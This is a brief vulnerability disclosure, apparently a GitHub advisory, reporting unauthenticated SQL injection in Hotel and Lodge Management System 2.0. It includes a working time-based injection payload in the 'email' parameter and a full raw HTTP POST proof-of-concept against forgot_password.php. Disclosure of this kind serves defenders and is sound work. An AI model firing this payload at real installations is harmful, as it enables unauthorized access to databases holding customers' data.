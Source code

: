 HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI

Disclosure date: 10/24/19

Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'email' parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.

download:

https://www.sourcecodester.com/php/13707/hotel-and-lodge-management-system.html

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

POC:
```
POST /forgot_password.php HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

btn_forgot=1&email=1' or sleep(5)%23
```

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)

by h1tler@knownsec.com
